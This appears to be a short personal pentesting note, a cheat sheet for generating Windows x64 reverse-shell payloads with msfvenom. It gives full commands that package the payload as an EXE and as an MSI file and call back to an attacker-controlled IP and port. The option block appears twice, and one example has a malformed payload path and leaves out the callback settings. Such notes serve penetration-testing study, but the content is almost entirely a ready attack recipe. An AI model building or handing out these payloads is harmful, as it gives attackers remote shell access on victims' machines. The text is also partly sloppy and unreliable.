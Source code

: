 msfvenom 
	-p payload
	ex
		/OS/ARCH/shell
		windows/x64/shell_reverse_tcp
	lhost (your atttacker box IP)
	Lport (your attacker box port to connect to)
	-f - File type
	full example
	msfvenom -p /windows/x64/shell_reverse_tcp -f exe > wise.exe

MSI 
```
`msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<Port> -f msi -o reverse.msi`
```

msfvenom 
	-p payload
	ex
		/OS/ARCH/shell
		windows/x64/shell_reverse_tcp
	lhost (your atttacker box IP)
	Lport (your attacker box port to connect to)
	-f - File type
	full example
	msfvenom -p /windows/x64/shell_reverse_tcp -f exe > wise.exe